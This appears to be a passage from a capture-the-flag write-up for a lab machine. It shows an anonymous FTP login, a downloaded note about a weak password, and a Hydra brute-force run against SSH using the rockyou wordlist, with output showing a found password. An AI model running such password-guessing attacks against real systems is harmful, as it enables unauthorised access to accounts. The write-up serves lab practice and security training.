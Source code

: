 ```
ftp 10.10.93.39 
Connected to 10.10.93.39.
220 (vsFTPd 3.0.3)
Name (10.10.93.39:fr3akazo1d): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (332.9826 kB/s)
ftp>
````
On the FTP-Server there is a file witch i downloaded. 
After downloading the File, we can check was is in it. 

```sh 
bat note_to_j***.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: note_to_jake.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ From A**,
   2   │ 
   3   │ J*** please change your password. It is too weak and h*** will be mad if someone hacks into the nine nine
   4   │ 
   5   │ 
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

As in the note mentioned, J*** has a week password. So we can try it to Brue-Froce the password with Hydra. 

### Hydra-BruteForce

```sh
hydra -t 16 -l j*** -P /usr/share/wordlists/rockyou.txt 10.10.93.39 ssh                                    
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-05 21:04:41
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.93.39:22/
[22][ssh] host: 10.10.93.39   login: jake   password: 9*******1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```